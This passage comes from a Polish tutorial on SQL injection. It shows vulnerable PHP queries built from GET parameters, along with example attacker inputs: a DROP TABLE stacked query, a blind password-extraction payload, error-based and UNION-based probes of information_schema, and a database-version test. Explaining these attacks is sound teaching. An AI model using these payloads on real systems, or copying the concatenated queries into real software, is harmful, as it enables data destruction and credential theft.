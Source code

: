 ### Przykład 3: Atak typu DROP TABLE
```sql
-- Pole wyszukiwania
$id = $_GET['id'];
$query = "SELECT * FROM articles WHERE id = $id";

-- Napastnik wprowadza:
-- id: "1; DROP TABLE articles; --"
-- Wynikowe zapytanie:
SELECT * FROM articles WHERE id = 1; DROP TABLE articles; --;

-- Skutek: Usunięcie całej tabeli articles!
```

### Przykład 4: Blind SQL Injection
```sql
-- Aplikacja nie pokazuje wyników, ale zachowuje się różnie
$user_id = $_GET['user_id'];
$query = "SELECT * FROM users WHERE id = $user_id AND active = 1";

-- Napastnik testuje:
-- user_id: "1 AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'"

-- Jeśli strona zachowuje się normalnie → pierwsze hasło admin zaczyna się od 'a'
-- Jeśli strona wyświetla błąd → nie zaczyna się od 'a'
-- Powtarzając proces można odgadnąć całe hasło
```

## Rodzaje ataków SQL Injection

### 1. **In-band SQL Injection**
Napastnik otrzymuje wyniki bezpośrednio w odpowiedzi HTTP.

#### **Error-based**
- Wykorzystuje błędy bazy danych do ujawnienia informacji
```sql
-- Wprowadzenie błędnej składni ujawnia strukturę bazy
' AND (SELECT * FROM users WHERE username = 'admin') = 1 --
-- Error: subquery returns more than one column
```

#### **Union-based**
- Używa UNION do łączenia wyników z innymi tabelami
```sql
' UNION SELECT table_name, column_name, null FROM information_schema.columns --
```

### 2. **Blind SQL Injection**
Napastnik nie widzi wyników, ale może wnioskować z zachowania aplikacji.

#### **Boolean-based**
```sql
-- Test czy baza danych to MySQL
' AND (SELECT @@version) LIKE '%MySQL%' --

-- Jeśli strona działa normalnie → MySQL
-- Jeśli błąd → inna baza
```
